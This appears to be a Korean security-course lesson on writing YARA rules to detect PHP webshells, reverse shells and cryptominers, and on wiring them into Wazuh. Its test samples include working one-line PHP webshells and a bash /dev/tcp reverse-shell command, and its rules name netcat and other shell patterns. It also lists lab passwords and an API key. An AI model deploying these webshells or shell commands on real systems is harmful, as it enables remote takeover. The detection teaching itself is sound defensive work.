

# Week 04: YARA 룰 작성

## 학습 목표
- YARA 룰의 구조(meta, strings, condition)를 이해하고 작성할 수 있다
- 문자열, 헥스, 정규표현식 패턴으로 악성코드 시그니처를 정의할 수 있다
- 웹셸, 백도어, 암호화폐 채굴기를 탐지하는 실전 YARA 룰을 작성할 수 있다
- YARA 룰을 Wazuh와 연동하여 파일 무결성 모니터링(FIM)에 활용할 수 있다
- 오탐을 줄이기 위한 조건 최적화와 성능 고려사항을 이해한다

## 실습 환경 (공통)

| 서버 | IP | 역할 | 접속 |
|------|-----|------|------|
| bastion | 10.20.30.201 | Control Plane (Bastion) | `ssh ccc@10.20.30.201` (pw: 1) |
| secu | 10.20.30.1 | 방화벽/IPS (nftables, Suricata) | `ssh ccc@10.20.30.1` |
| web | 10.20.30.80 | 웹서버 (JuiceShop:3000, Apache:80) | `ssh ccc@10.20.30.80` |
| siem | 10.20.30.100 | SIEM (Wazuh Dashboard:443, OpenCTI:8080) | `ssh ccc@10.20.30.100` |

**Bastion API:** `http://localhost:9100` / Key: `ccc-api-key-2026`

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:50 | YARA 기본 구조 + 문법 (Part 1) | 강의 |
| 0:50-1:30 | 고급 패턴 + 조건 (Part 2) | 강의/토론 |
| 1:30-1:40 | 휴식 | - |
| 1:40-2:30 | YARA 룰 작성 실습 (Part 3) | 실습 |
| 2:30-3:10 | Wazuh 연동 + 자동화 (Part 4) | 실습 |
| 3:10-3:20 | 정리 + 과제 안내 | 정리 |

---

## 용어 해설

| 용어 | 영문 | 설명 | 비유 |
|------|------|------|------|
| **YARA** | YARA | "Yet Another Recursive Acronym" - 파일 패턴 매칭 도구 | 지문 감식 도구 |
| **시그니처** | Signature | 악성코드를 식별하는 고유 패턴 | 범인의 지문 |
| **strings** | Strings Section | YARA 룰에서 검색할 문자열/패턴 정의 | 수배서의 인상착의 |
| **condition** | Condition Section | strings 매칭 조건 논리 조합 | 체포 조건 |
| **meta** | Metadata Section | 룰 부가 정보 (작성자, 설명 등) | 수배서 머리글 |
| **hex string** | Hexadecimal String | 16진수 바이트 패턴 | 바이너리 지문 |
| **wildcard** | Wildcard | 임의 바이트 매칭 (??) | 인상착의의 "대략 170cm" |
| **jump** | Jump | 가변 길이 건너뛰기 [n-m] | "3~5칸 건너뜀" |
| **웹셸** | Web Shell | 웹 서버에 심는 원격 제어 백도어 | 건물에 숨긴 비밀 출입구 |
| **FIM** | File Integrity Monitoring | 파일 무결성 모니터링 | 서류 위변조 감시 |

---

# Part 1: YARA 기본 구조 + 문법 (50분)

## 1.1 YARA란?

YARA는 **파일이나 메모리에서 특정 패턴을 찾아 악성코드를 식별**하는 도구다. 보안 연구자 Victor Alvarez가 개발했으며, 안티바이러스 시그니처와 유사하지만 훨씬 유연하다.

### YARA의 활용 영역

```
+---[악성코드 분류]---+   +---[위협 헌팅]---+   +---[IR/포렌식]---+
| - 패밀리 분류        |   | - 파일 스캔     |   | - 디스크 스캔    |
| - 변종 탐지          |   | - 메모리 스캔   |   | - 메모리 분석    |
| - 캠페인 추적        |   | - 네트워크 트래픽|   | - 증거 분류      |
+---------------------+   +-----------------+   +------------------+

+---[SOC 운영]---+        +---[자동화]---+
| - FIM 연동     |        | - CI/CD 스캔  |
| - 업로드 검사  |        | - SOAR 연동   |
| - 격리 판단    |        | - 공유 저장소  |
+-----------------+        +---------------+
```

## 1.2 YARA 룰 기본 구조

```
rule RuleName
{
    meta:                    // 메타데이터 (선택)
        author = "analyst"
        description = "설명"
        date = "2026-04-04"
        
    strings:                 // 검색 패턴 (선택이지만 대부분 사용)
        $s1 = "pattern1"
        $s2 = { 4D 5A 90 }
        $s3 = /regex_pattern/
        
    condition:               // 매칭 조건 (필수)
        any of them
}
```

### meta 섹션 주요 필드

| 필드 | 설명 | 예시 |
|------|------|------|
| `author` | 작성자 | `"SOC Team"` |
| `description` | 룰 설명 | `"PHP 웹셸 탐지"` |
| `date` | 작성일 | `"2026-04-04"` |
| `reference` | 참고 URL | `"https://..."` |
| `hash` | 알려진 샘플 해시 | `"abc123..."` |
| `severity` | 심각도 | `"critical"` |
| `mitre_attack` | ATT&CK ID | `"T1505.003"` |

### strings 유형

```
[텍스트 문자열]
$text = "malware"              // 정확한 문자열
$text_nocase = "MaLwArE" nocase  // 대소문자 무시
$text_wide = "malware" wide    // UTF-16 인코딩
$text_ascii = "malware" ascii  // ASCII 인코딩
$text_full = "malware" ascii wide nocase  // 모두 적용

[헥스 문자열]
$hex = { 4D 5A 90 00 }        // MZ 헤더
$hex_wild = { 4D 5A ?? 00 }   // ?? = 임의 1바이트
$hex_jump = { 4D 5A [2-4] 00 } // [2-4] = 2~4바이트 건너뜀
$hex_alt = { ( 4D 5A | 50 4B ) } // 택일 (MZ 또는 PK)

[정규표현식]
$regex = /https?:\/\/[a-z0-9\-\.]+\.(tk|ml|ga|cf)/i
$regex2 = /eval\s*\(\s*\$_(GET|POST|REQUEST)/
```

## 1.3 condition 문법

### 기본 조건

```
condition: $s1                    // $s1이 존재하면 매칭
condition: $s1 and $s2            // 둘 다 존재
condition: $s1 or $s2             // 하나 이상 존재
condition: not $s1                // $s1이 없으면 매칭
condition: any of them            // 모든 문자열 중 하나라도
condition: all of them            // 모든 문자열 전부
condition: 2 of them              // 최소 2개 매칭
condition: 3 of ($s*)             // $s로 시작하는 것 중 3개
```

### 고급 조건

```
condition: #s1 > 5                // $s1이 5번 이상 출현
condition: @s1 < 100              // $s1의 오프셋이 100 미만
condition: $s1 at 0               // $s1이 파일 시작점에
condition: $s1 in (0..1024)       // $s1이 처음 1KB 내에
condition: filesize < 10KB        // 파일 크기 10KB 미만
condition: filesize > 1MB         // 파일 크기 1MB 초과
condition: uint16(0) == 0x5A4D   // 오프셋 0에서 2바이트 = MZ
condition: uint32be(0) == 0x7F454C46  // ELF 헤더
```

### 파일 형식 판별

```
// PE 파일 (Windows 실행파일)
condition: uint16(0) == 0x5A4D

// ELF 파일 (Linux 실행파일)
condition: uint32(0) == 0x464C457F

// PDF 파일
condition: uint32(0) == 0x46445025

// ZIP 파일
condition: uint16(0) == 0x4B50

// Shebang (스크립트)
condition: uint16(0) == 0x2123    // #!
```

## 1.4 YARA 설치 및 기본 사용

```bash
# YARA 설치 확인 (bastion 서버)
yara --version 2>/dev/null || echo "YARA 미설치"

# 설치 (필요시)
sudo apt-get update && sudo apt-get install -y yara 2>/dev/null

# 간단한 테스트
cat << 'RULE' > /tmp/test.yar
rule TestRule
{
    meta:
        description = "Simple test rule"
    strings:
        $test = "hello world"
    condition:
        $test
}
RULE

echo "hello world this is a test file" > /tmp/testfile.txt
yara /tmp/test.yar /tmp/testfile.txt
echo "Exit code: $? (0=매칭, 1=미매칭)"
```

> **명령어 해설**:
> - `yara <rules_file> <target>`: YARA 룰로 대상 파일/디렉토리 스캔
> - 매칭되면 룰 이름과 파일 경로가 출력된다
>
> **트러블슈팅**:
> - "yara: command not found" → `sudo apt-get install yara`
> - "error: syntax error" → YARA 룰 문법 확인 (중괄호, 따옴표)

---

# Part 2: 고급 패턴 + 조건 (40분)

## 2.1 웹셸 탐지 패턴

### PHP 웹셸 특징

```
[일반적인 PHP 웹셸 패턴]

1. 코드 실행 함수:
   eval(), system(), exec(), passthru(), shell_exec()
   popen(), proc_open(), pcntl_exec()

2. 입력 변수 사용:
   $_GET, $_POST, $_REQUEST, $_COOKIE, $_SERVER

3. 인코딩/난독화:
   base64_decode(), gzinflate(), str_rot13()
   preg_replace('/e', ...) (PHP <7)
   assert() (동적 코드 실행)

4. 파일 조작:
   file_put_contents(), fwrite(), move_uploaded_file()
   
5. 네트워크:
   fsockopen(), curl_exec(), file_get_contents('http')
```

### JSP/ASP 웹셸 패턴

```
[JSP 웹셸]
Runtime.getRuntime().exec()
ProcessBuilder
request.getParameter()

[ASP 웹셸]
Server.CreateObject("WScript.Shell")
Execute(), Eval()
Request.Form, Request.QueryString
```

## 2.2 악성코드 공통 패턴

### 리버스 셸

```
[리버스 셸 패턴]

Bash:     /dev/tcp/<IP>/<PORT>
Python:   socket.socket() + connect() + subprocess
Perl:     IO::Socket::INET + exec("/bin/sh")
PHP:      fsockopen() + exec() + /bin/sh
Netcat:   nc -e /bin/sh
```

### 암호화폐 채굴기

```
[채굴기 패턴]

- stratum+tcp://
- pool.minexmr.com
- xmrig, ccminer
- "cryptonight"
- mining_pool, pool_address
- wallet_address, payment_id
```

## 2.3 모듈 활용

```
// PE 모듈 (Windows 실행파일 분석)
import "pe"
rule SuspiciousPE {
    condition:
        pe.number_of_sections > 7 and
        pe.timestamp < 1000000000
}

// ELF 모듈 (Linux 실행파일 분석)
import "elf"
rule SuspiciousELF {
    condition:
        elf.type == elf.ET_EXEC and
        elf.number_of_sections < 3
}

// Hash 모듈
import "hash"
rule KnownMalware {
    condition:
        hash.md5(0, filesize) == "known_hash_value"
}

// Math 모듈 (엔트로피 계산)
import "math"
rule HighEntropy {
    condition:
        math.entropy(0, filesize) > 7.5  // 암호화/패킹 의심
}
```

---

# Part 3: YARA 룰 작성 실습 (50분)

## 3.1 PHP 웹셸 탐지 룰

> **실습 목적**: 실전에서 가장 많이 사용하는 PHP 웹셸 탐지 YARA 룰을 작성한다.
>
> **배우는 것**: 다중 패턴 조합, nocase 수정자, 조건 최적화
>
> **실전 활용**: 웹서버 파일 업로드 디렉토리 모니터링, 침해사고 조사 시 웹셸 찾기

```bash
# PHP 웹셸 탐지 YARA 룰 작성
mkdir -p /tmp/yara_rules

cat << 'RULE' > /tmp/yara_rules/php_webshell.yar
rule PHP_Webshell_Generic
{
    meta:
        author = "SOC Advanced Lab"
        description = "Generic PHP web shell detection"
        date = "2026-04-04"
        severity = "critical"
        mitre_attack = "T1505.003"
        reference = "https://attack.mitre.org/techniques/T1505/003/"

    strings:
        // 코드 실행 함수 + 사용자 입력
        $exec1 = "eval(" nocase
        $exec2 = "system(" nocase
        $exec3 = "exec(" nocase
        $exec4 = "passthru(" nocase
        $exec5 = "shell_exec(" nocase
        $exec6 = "popen(" nocase
        $exec7 = "proc_open(" nocase
        $exec8 = "pcntl_exec(" nocase
        $exec9 = "assert(" nocase

        // 사용자 입력 변수
        $input1 = "$_GET" nocase
        $input2 = "$_POST" nocase
        $input3 = "$_REQUEST" nocase
        $input4 = "$_COOKIE" nocase
        $input5 = "$_FILES" nocase

        // 인코딩/난독화
        $obf1 = "base64_decode(" nocase
        $obf2 = "gzinflate(" nocase
        $obf3 = "gzuncompress(" nocase
        $obf4 = "str_rot13(" nocase
        $obf5 = "rawurldecode(" nocase
        $obf6 = /chr\s*\(\s*\d+\s*\)\s*\./

        // 파일 조작
        $file1 = "file_put_contents(" nocase
        $file2 = "fwrite(" nocase
        $file3 = "move_uploaded_file(" nocase

        // 알려진 웹셸 문자열
        $known1 = "c99shell" nocase
        $known2 = "r57shell" nocase
        $known3 = "WSO " nocase
        $known4 = "b374k" nocase
        $known5 = "FilesMan" nocase
        $known6 = "China Chopper" nocase

    condition:
        // PHP 파일 (<?php 또는 <?)로 시작
        (uint32(0) == 0x68703F3C or uint16(0) == 0x3F3C) and
        (
            // 코드 실행 + 사용자 입력 조합
            (1 of ($exec*) and 1 of ($input*)) or
            // 코드 실행 + 난독화
            (1 of ($exec*) and 1 of ($obf*)) or
            // 알려진 웹셸
            any of ($known*) or
            // 난독화 + 파일 조작 + 사용자 입력
            (1 of ($obf*) and 1 of ($file*) and 1 of ($input*)) or
            // 3개 이상의 실행 함수 사용 (과도한 기능)
            3 of ($exec*)
        )
}
RULE

echo "=== PHP 웹셸 탐지 룰 작성 완료 ==="
cat /tmp/yara_rules/php_webshell.yar
```

## 3.2 테스트 샘플로 검증

```bash
# 테스트용 웹셸 샘플 생성 (실제 동작하지 않는 더미)
mkdir -p /tmp/yara_test

# 양성 샘플 1: 간단한 웹셸 패턴
cat << 'SAMPLE' > /tmp/yara_test/sample1.php
<?php
// 테스트 웹셸 패턴 (교육용 - 실제 동작하지 않음)
$cmd = $_GET['cmd'];
system($cmd);
?>
SAMPLE

# 양성 샘플 2: 난독화된 웹셸
cat << 'SAMPLE' > /tmp/yara_test/sample2.php
<?php
$x = base64_decode($_POST['data']);
eval($x);
?>
SAMPLE

# 양성 샘플 3: 알려진 웹셸 이름
cat << 'SAMPLE' > /tmp/yara_test/sample3.php
<?php
// c99shell variant
echo "c99shell v3.0";
?>
SAMPLE

# 음성 샘플: 정상 PHP 파일
cat << 'SAMPLE' > /tmp/yara_test/normal.php
<?php
echo "Hello World";
$name = htmlspecialchars($_GET['name']);
echo "Welcome, " . $name;
?>
SAMPLE

# YARA 스캔 실행
echo "=== YARA 스캔 결과 ==="
yara -s /tmp/yara_rules/php_webshell.yar /tmp/yara_test/ 2>/dev/null

echo ""
echo "=== 개별 파일 스캔 ==="
for f in /tmp/yara_test/*.php; do
    result=$(yara /tmp/yara_rules/php_webshell.yar "$f" 2>/dev/null)
    if [ -n "$result" ]; then
        echo "[DETECTED] $f → $result"
    else
        echo "[CLEAN]    $f"
    fi
done

# 정리
rm -rf /tmp/yara_test
```

> **결과 해석**: sample1, sample2, sample3은 탐지되고, normal.php는 탐지되지 않아야 한다. normal.php가 탐지되면 조건이 너무 느슨한 것이고, sample 중 하나라도 놓치면 패턴이 부족한 것이다.

## 3.3 리버스 셸 탐지 룰

```bash
cat << 'RULE' > /tmp/yara_rules/reverse_shell.yar
rule Linux_ReverseShell_Script
{
    meta:
        author = "SOC Advanced Lab"
        description = "Detects common reverse shell patterns in scripts"
        date = "2026-04-04"
        severity = "critical"
        mitre_attack = "T1059.004"

    strings:
        // Bash 리버스 셸
        $bash1 = "/dev/tcp/" ascii
        $bash2 = "bash -i >& /dev/tcp" ascii
        $bash3 = "bash -c 'bash -i" ascii

        // Python 리버스 셸
        $py1 = "socket.socket" ascii
        $py2 = ".connect((" ascii
        $py3 = "subprocess.call" ascii
        $py4 = "pty.spawn" ascii

        // Perl 리버스 셸
        $perl1 = "IO::Socket::INET" ascii
        $perl2 = "exec(\"/bin/" ascii

        // Netcat 리버스 셸
        $nc1 = "nc -e /bin/" ascii
        $nc2 = "ncat -e /bin/" ascii
        $nc3 = /nc\s+-[a-z]*e\s+\/bin\// ascii

        // PHP 리버스 셸
        $php1 = "fsockopen(" ascii
        $php2 = "php -r" ascii

        // 공통 패턴
        $common1 = "/bin/sh" ascii
        $common2 = "/bin/bash" ascii
        $common3 = "0>&1" ascii
        $common4 = "2>&1" ascii

    condition:
        (1 of ($bash*)) or
        ($py1 and $py2 and ($py3 or $py4)) or
        ($perl1 and $perl2) or
        (1 of ($nc*)) or
        ($php1 and 1 of ($common*)) or
        (
            filesize < 5KB and
            2 of ($common*) and
            1 of ($bash*, $py*, $perl*, $nc*, $php*)
        )
}
RULE

echo "=== 리버스 셸 탐지 룰 작성 완료 ==="

# 테스트
echo '#!/bin/bash' > /tmp/test_revshell.sh
echo 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1' >> /tmp/test_revshell.sh

yara /tmp/yara_rules/reverse_shell.yar /tmp/test_revshell.sh 2>/dev/null
rm -f /tmp/test_revshell.sh
```

## 3.4 암호화폐 채굴기 탐지 룰

```bash
cat << 'RULE' > /tmp/yara_rules/cryptominer.yar
rule Cryptominer_Generic
{
    meta:
        author = "SOC Advanced Lab"
        description = "Detects cryptocurrency mining indicators"
        date = "2026-04-04"
        severity = "high"
        mitre_attack = "T1496"

    strings:
        // 마이닝 프로토콜
        $pool1 = "stratum+tcp://" ascii nocase
        $pool2 = "stratum+ssl://" ascii nocase
        $pool3 = "stratum2+tcp://" ascii nocase

        // 알려진 마이닝 풀
        $known_pool1 = "pool.minexmr.com" ascii nocase
        $known_pool2 = "xmrpool.eu" ascii nocase
        $known_pool3 = "nanopool.org" ascii nocase
        $known_pool4 = "pool.supportxmr.com" ascii nocase
        $known_pool5 = "hashvault.pro" ascii nocase

        // 마이너 이름
        $miner1 = "xmrig" ascii nocase
        $miner2 = "ccminer" ascii nocase
        $miner3 = "cpuminer" ascii nocase
        $miner4 = "minerd" ascii nocase
        $miner5 = "cgminer" ascii nocase

        // 알고리즘
        $algo1 = "cryptonight" ascii nocase
        $algo2 = "randomx" ascii nocase
        $algo3 = "ethash" ascii nocase
        $algo4 = "kawpow" ascii nocase

        // 설정 키워드
        $config1 = "mining_pool" ascii nocase
        $config2 = "pool_address" ascii nocase
        $config3 = "wallet_address" ascii nocase
        $config4 = "payment_id" ascii nocase
        $config5 = "\"algo\"" ascii
        $config6 = "\"pool\"" ascii
        $config7 = "donate-level" ascii nocase

    condition:
        any of ($pool*) or
        any of ($known_pool*) or
        (1 of ($miner*) and 1 of ($algo*)) or
        (1 of ($miner*) and 2 of ($config*)) or
        (1 of ($pool*) and 1 of ($config*)) or
        3 of ($config*)
}
RULE

echo "=== 암호화폐 채굴기 탐지 룰 작성 완료 ==="

# 테스트
echo '{"algo":"randomx","pool":"stratum+tcp://pool.minexmr.com:4444","wallet_address":"abc123"}' > /tmp/test_miner.json
yara /tmp/yara_rules/cryptominer.yar /tmp/test_miner.json 2>/dev/null
rm -f /tmp/test_miner.json
```

## 3.5 디렉토리 스캔

```bash
# web 서버의 웹 루트 디렉토리를 YARA로 스캔
echo "=== 웹서버 파일 스캔 ==="

# 먼저 룰 파일을 siem으로 복사
scp -o StrictHostKeyChecking=no /tmp/yara_rules/*.yar \
  ccc@10.20.30.100:/tmp/ 2>/dev/null

# web 서버 스캔 (Bastion 경유)
export BASTION_API_KEY="ccc-api-key-2026"

PROJECT_ID=$(curl -s -X POST http://localhost:9100/projects \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "name": "yara-web-scan",
    "request_text": "웹서버 YARA 스캔 수행",
    "master_mode": "external"
  }' | python3 -c "import sys,json; print(json.load(sys.stdin)['id'])")

curl -s -X POST "http://localhost:9100/projects/$PROJECT_ID/plan" \
  -H "X-API-Key: $BASTION_API_KEY"
curl -s -X POST "http://localhost:9100/projects/$PROJECT_ID/execute" \
  -H "X-API-Key: $BASTION_API_KEY"

curl -s -X POST "http://localhost:9100/projects/$PROJECT_ID/dispatch" \
  -H "Content-Type: application/json" \
  -H "X-API-Key: $BASTION_API_KEY" \
  -d '{
    "command": "which yara && yara --version || echo YARA_NOT_INSTALLED",
    "subagent_url": "http://10.20.30.80:8002"
  }'
```

> **실전 활용**: 침해사고 조사 시 YARA를 웹 루트 디렉토리에 대해 실행하여 웹셸을 신속하게 찾을 수 있다. Bastion를 통해 여러 서버를 동시에 스캔할 수 있다.

---

# Part 4: Wazuh 연동 + 자동화 (40분)

## 4.1 Wazuh FIM + YARA 연동

```bash
# Wazuh의 Active Response로 YARA 스캔 연동
ssh ccc@10.20.30.100 << 'REMOTE'

# YARA 설치 확인
which yara || sudo apt-get install -y yara 2>/dev/null

# YARA 룰 디렉토리 생성
sudo mkdir -p /var/ossec/etc/yara/rules
sudo mkdir -p /var/ossec/etc/yara/malware

# 웹셸 탐지 룰 복사
sudo tee /var/ossec/etc/yara/rules/webshell.yar << 'YARA'
rule PHP_Webshell_Simple
{
    meta:
        author = "SOC Lab"
        description = "Simple PHP webshell detection for Wazuh integration"
    strings:
        $exec1 = "eval(" nocase
        $exec2 = "system(" nocase
        $exec3 = "exec(" nocase
        $exec4 = "shell_exec(" nocase
        $input1 = "$_GET" nocase
        $input2 = "$_POST" nocase
        $input3 = "$_REQUEST" nocase
    condition:
        1 of ($exec*) and 1 of ($input*)
}
YARA

echo "YARA 룰 배포 완료"

# YARA Active Response 스크립트 생성
sudo tee /var/ossec/active-response/bin/yara_scan.sh << 'SCRIPT'
#!/bin/bash
# Wazuh Active Response - YARA 스캔
# FIM이 파일 변경을 탐지하면 해당 파일을 YARA로 스캔

LOCAL=$(dirname $0)
YARA_RULES="/var/ossec/etc/yara/rules/"
YARA_MALWARE="/var/ossec/etc/yara/malware/"
LOG_FILE="/var/ossec/logs/yara_scan.log"

read INPUT_JSON
FILENAME=$(echo $INPUT_JSON | python3 -c "
import sys, json
try:
    data = json.load(sys.stdin)
    print(data.get('parameters', {}).get('alert', {}).get('syscheck', {}).get('path', ''))
except:
    print('')
")

if [ -z "$FILENAME" ] || [ ! -f "$FILENAME" ]; then
    exit 0
fi

# YARA 스캔 실행
RESULT=$(yara -s "$YARA_RULES" "$FILENAME" 2>/dev/null)

if [ -n "$RESULT" ]; then
    echo "$(date) YARA MATCH: $FILENAME - $RESULT" >> "$LOG_FILE"
    # 악성 파일 격리
    QUARANTINE="$YARA_MALWARE/$(date +%Y%m%d_%H%M%S)_$(basename $FILENAME)"
    cp "$FILENAME" "$QUARANTINE" 2>/dev/null
    echo "$(date) QUARANTINED: $FILENAME -> $QUARANTINE" >> "$LOG_FILE"
fi
SCRIPT

sudo chmod 750 /var/ossec/active-response/bin/yara_scan.sh
sudo chown root:wazuh /var/ossec/active-response/bin/yara_scan.sh

echo "YARA Active Response 스크립트 배포 완료"

REMOTE
```

> **배우는 것**: Wazuh의 FIM(파일 무결성 모니터링)이 파일 변경을 탐지하면, Active Response로 YARA 스캔을 자동 실행하는 연동 방법
>
> **결과 해석**: FIM → 파일 변경 탐지 → YARA 스캔 → 매칭 시 격리 + 로그 기록. 이 파이프라인이 자동으로 동작한다.

## 4.2 Wazuh ossec.conf 설정

```bash
ssh ccc@10.20.30.100 << 'REMOTE'

# Wazuh FIM 설정 확인 (웹 디렉토리 모니터링)
echo "=== 현재 FIM 설정 ==="
sudo grep -A5 "syscheck" /var/ossec/etc/ossec.conf 2>/dev/null | head -30

echo ""
echo "=== Active Response 설정 확인 ==="
sudo grep -A10 "active-response" /var/ossec/etc/ossec.conf 2>/dev/null | head -20

# YARA 스캔 로그 확인
echo ""
echo "=== YARA 스캔 로그 ==="
cat /var/ossec/logs/yara_scan.log 2>/dev/null || echo "(스캔 이력 없음)"

REMOTE
```

## 4.3 YARA 룰 성능 최적화

```bash
cat << 'SCRIPT' > /tmp/yara_performance.py
#!/usr/bin/env python3
"""YARA 룰 성능 가이드"""

tips = [
    {
        "title": "1. filesize 조건 먼저 검사",
        "good": 'condition: filesize < 1MB and $s1',
        "bad": 'condition: $s1 and filesize < 1MB',
        "reason": "filesize는 I/O 없이 검사 가능하므로 먼저 평가"
    },
    {
        "title": "2. 매직 바이트 조건 추가",
        "good": 'condition: uint16(0) == 0x3F3C and $webshell',
        "bad": 'condition: $webshell',
        "reason": "파일 형식을 먼저 필터링하면 불필요한 문자열 검색 감소"
    },
    {
        "title": "3. 짧은 문자열 피하기",
        "good": '$s1 = "eval($_GET" nocase',
        "bad": '$s1 = "ev" nocase',
        "reason": "짧은 문자열은 매칭 빈도가 높아 성능 저하"
    },
    {
        "title": "4. 정규표현식 최소화",
        "good": '$s1 = "eval(" nocase',
        "bad": '$s1 = /eval\\s*\\(/i',
        "reason": "정규표현식은 고정 문자열보다 10-100배 느림"
    },
    {
        "title": "5. 모듈은 필요할 때만",
        "good": '// PE 분석 불필요 시 import 생략',
        "bad": 'import "pe"  // 사용하지 않는데 import',
        "reason": "모듈 로드 자체가 오버헤드"
    },
]

print("=" * 60)
print("  YARA 룰 성능 최적화 가이드")
print("=" * 60)

for tip in tips:
    print(f"\n{tip['title']}")
    print(f"  GOOD: {tip['good']}")
    print(f"  BAD:  {tip['bad']}")
    print(f"  이유: {tip['reason']}")
SCRIPT

python3 /tmp/yara_performance.py
```

## 4.4 YARA 룰 테스트 자동화

```bash
cat << 'SCRIPT' > /tmp/yara_test_suite.sh
#!/bin/bash
# YARA 룰 테스트 자동화 스크립트
echo "========================================="
echo "  YARA 룰 테스트 스위트"
echo "========================================="

RULES_DIR="/tmp/yara_rules"
PASS=0
FAIL=0
TOTAL=0

run_test() {
    local desc="$1"
    local rule="$2"
    local file="$3"
    local expect="$4"  # "match" or "clean"
    
    TOTAL=$((TOTAL+1))
    result=$(yara "$rule" "$file" 2>/dev/null)
    
    if [ "$expect" = "match" ] && [ -n "$result" ]; then
        echo "  [PASS] $desc"
        PASS=$((PASS+1))
    elif [ "$expect" = "clean" ] && [ -z "$result" ]; then
        echo "  [PASS] $desc"
        PASS=$((PASS+1))
    else
        echo "  [FAIL] $desc (expected: $expect, got: $([ -n \"$result\" ] && echo match || echo clean))"
        FAIL=$((FAIL+1))
    fi
}

# 테스트 샘플 생성
mkdir -p /tmp/yara_test_samples

echo '<?php eval($_GET["cmd"]); ?>' > /tmp/yara_test_samples/webshell1.php
echo '<?php system($_POST["c"]); ?>' > /tmp/yara_test_samples/webshell2.php
echo '<?php $x=base64_decode($_REQUEST["d"]); eval($x); ?>' > /tmp/yara_test_samples/webshell3.php
echo '<?php echo "Hello World"; ?>' > /tmp/yara_test_samples/normal.php
echo 'Hello this is a text file' > /tmp/yara_test_samples/text.txt

echo ""
echo "--- PHP 웹셸 탐지 테스트 ---"
run_test "웹셸 eval+GET"    "$RULES_DIR/php_webshell.yar" /tmp/yara_test_samples/webshell1.php "match"
run_test "웹셸 system+POST" "$RULES_DIR/php_webshell.yar" /tmp/yara_test_samples/webshell2.php "match"
run_test "웹셸 난독화"      "$RULES_DIR/php_webshell.yar" /tmp/yara_test_samples/webshell3.php "match"
run_test "정상 PHP"          "$RULES_DIR/php_webshell.yar" /tmp/yara_test_samples/normal.php   "clean"
run_test "텍스트 파일"       "$RULES_DIR/php_webshell.yar" /tmp/yara_test_samples/text.txt     "clean"

# 정리
rm -rf /tmp/yara_test_samples

echo ""
echo "========================================="
echo "  결과: $PASS/$TOTAL 통과, $FAIL 실패"
echo "========================================="
SCRIPT

bash /tmp/yara_test_suite.sh
```

> **실전 활용**: YARA 룰을 작성한 후 반드시 양성/음성 테스트 세트로 검증해야 한다. CI/CD 파이프라인에 이 테스트를 포함하면 룰 변경 시 자동 검증이 가능하다.

---

## 체크리스트

- [ ] YARA 룰의 meta, strings, condition 3개 섹션을 설명할 수 있다
- [ ] 텍스트, 헥스, 정규표현식 3가지 문자열 유형을 사용할 수 있다
- [ ] nocase, wide, ascii 수정자의 용도를 알고 있다
- [ ] filesize, uint16, at, in 등 고급 조건을 활용할 수 있다
- [ ] PHP 웹셸의 일반적 패턴 5가지를 나열할 수 있다
- [ ] 리버스 셸 스크립트를 탐지하는 YARA 룰을 작성할 수 있다
- [ ] YARA를 Wazuh FIM/Active Response와 연동할 수 있다
- [ ] YARA 룰 성능 최적화 원칙을 알고 있다
- [ ] 테스트 샘플로 YARA 룰의 정확도를 검증할 수 있다
- [ ] yara CLI 명령으로 파일/디렉토리를 스캔할 수 있다

---

## 과제

### 과제 1: 종합 YARA 룰셋 작성 (필수)

다음 3가지 위협을 탐지하는 YARA 룰을 각각 작성하라:
1. **JSP 웹셸**: Runtime.getRuntime().exec() 패턴
2. **SSH 키 탈취 도구**: .ssh/id_rsa 접근 + 네트워크 전송
3. **루트킷 설치 스크립트**: /dev/shm 사용 + chmod +x + 프로세스 은닉

각 룰에 테스트 샘플(양성 2개 + 음성 1개)을 함께 제출하라.

### 과제 2: YARA + Wazuh 통합 테스트 (선택)

Wazuh FIM이 웹 디렉토리의 파일 변경을 탐지하면 YARA 스캔이 자동 실행되는 환경을 구축하고:
1. 웹셸 업로드 시뮬레이션 → YARA 탐지 → 격리 확인
2. 정상 파일 업로드 → YARA 통과 확인
3. 전체 파이프라인 동작 스크린샷 제출

---

## 다음 주 예고

**Week 05: 위협 인텔리전스**에서는 STIX/TAXII 표준, MISP, OpenCTI를 활용한 위협 인텔리전스 수집과 IOC 피드 연동을 학습한다.

---

## 웹 UI 실습

### Wazuh Dashboard — SIGMA 룰 기반 YARA 탐지 경보

> **접속 URL:** `https://10.20.30.100:443`

1. 브라우저에서 `https://10.20.30.100:443` 접속 → 로그인
2. **Modules → Security events** 클릭
3. YARA 탐지 연동 경보를 필터링:
   ```
   rule.groups: yara OR rule.description: *YARA*
   ```
4. 경보 클릭 → `data.yara.rule` 필드에서 매칭된 YARA 룰 이름 확인
5. **Modules → Integrity monitoring** 에서 FIM → YARA 연계 이벤트 확인
6. **Management → Rules** 에서 YARA 연동 커스텀 룰 목록 검토

### OpenCTI — 위협 인텔리전스와 YARA 매칭

> **접속 URL:** `http://10.20.30.100:8080`

1. `http://10.20.30.100:8080` 접속 → 로그인
2. **Observations → Indicators** → 필터: `pattern_type = YARA` 설정
3. YARA 패턴이 등록된 인디케이터의 상세 정보 확인
4. **Knowledge** 탭에서 해당 YARA 시그니처와 연관된 악성코드/캠페인 관계 탐색
5. YARA 룰 작성 시 OpenCTI의 위협 컨텍스트를 참고하여 우선순위 결정

---

## 📂 실습 참조 파일 가이드

> 이번 주 실습에서 **실제로 조작하는** 솔루션의 기능·경로·파일·설정·UI 요점입니다.

### SIGMA + YARA
> **역할:** SIGMA=플랫폼 독립 탐지 룰, YARA=파일/메모리 시그니처  
> **실행 위치:** `SOC 분석가 PC / siem`  
> **접속/호출:** `sigmac` 변환기, `yara <rule> <target>`

**주요 경로·파일**

| 경로 | 역할 |
|------|------|
| `~/sigma/rules/` | SIGMA 룰 저장 |
| `~/yara-rules/` | YARA 룰 저장 |

**핵심 설정·키**

- `SIGMA logsource:product/service` — 로그 소스 매핑
- `YARA `strings: $s1 = "..." ascii wide`` — 시그니처 정의
- `YARA `condition: all of them and filesize < 1MB`` — 매칭 조건

**UI / CLI 요점**

